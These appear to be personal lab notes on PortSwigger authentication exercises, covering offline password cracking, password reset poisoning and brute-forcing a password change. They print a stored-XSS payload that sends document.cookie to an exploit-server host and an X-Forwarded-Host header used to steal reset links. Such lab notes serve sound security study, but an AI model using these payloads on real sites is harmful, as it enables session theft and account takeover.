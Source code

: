 

Getting credential using stored xss
<script>document.location='//YOUR-EXPLOIT-SERVER-ID.exploit-server.net/'+document.cookie</script>

From <https://portswigger.net/web-security/authentication/other-mechanisms/lab-offline-password-cracking> 
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/954add6d-ffae-485a-b085-35290a5a834a)
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/3f325fee-03d7-4231-89cd-a7568115b6d9)
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/af1bc734-8b28-4e99-8d59-0eee7aafe04f)











Use hashcat Only using crackstation cause it fast
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/830ff21a-082b-4d09-875c-325c61685546)






**Password reset poisoning via middleware**

From <https://portswigger.net/web-security/authentication/other-mechanisms/lab-password-reset-poisoning-via-middleware> 


Apparently this user will click on any links in email that he receives
Send a password reset to burp repeater 
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/25deb5ca-f9e4-4d1c-9da1-780b39ce8599)



Our repeater add xforward request to our exploit server 
X-Forwarded-Host: exploit-0a7500b9049219f882d560d2017700c7.exploit-server.net
And
Change to username you want to get
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/51070983-0a6f-4457-a6d1-5d78b0052e73)





We got it
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/bcdd4988-c843-4277-a6a6-f1f99c3e01ea)





**Password brute-force via password change**

From <https://portswigger.net/web-security/authentication/other-mechanisms/lab-password-brute-force-via-password-change> 

Sign in and play around with the password change function
